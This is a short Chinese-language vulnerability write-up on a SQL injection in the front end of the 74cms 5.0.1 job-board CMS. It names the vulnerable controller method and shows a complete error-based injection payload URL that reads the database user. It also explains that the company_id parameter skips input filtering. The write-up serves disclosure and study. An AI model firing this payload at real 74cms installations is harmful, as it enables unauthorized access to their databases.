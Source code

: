 ```yaml
---
title: 74cms v5.0.1前台sql注入
id: zhfly2795
---
```


# 74cms v5.0.1 前台sql注入

## 一、漏洞简介

74cms 5.0.1 前台AjaxPersonalController.class.php存在SQL注入

## 二、漏洞影响

## 三、复现过程

### 具体信息

文件位置：74cms\upload\Application\Home\Controller\AjaxPersonalController.class.php

方法：function company_focus($company_id)

是否需登录：需要

登录权限：普通用户即可

### Payload:

```
http://0-sec.org/74cms/5.0.1/upload/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a 
```

![image](../img/18ca92dd70bafc9493f20840eb5c27e6.png)

### 源码分析：

文件：74cms\upload\Application\Home\Controller\AjaxPersonalController.class.php

company_focus 方法是参数化函数，$company_id参数是不经过I函数过滤的，所以只要where可以控制，那就可以注入

![image](../img/b899b8cd0c34d7e28b6b5398b55d9a7e.png)

跟踪add_focus(),发现SQL语句参数外部都可以控制，导致了注入漏洞

![image](../img/fc31cf6834ac6390ddef158127ec1f3f.png)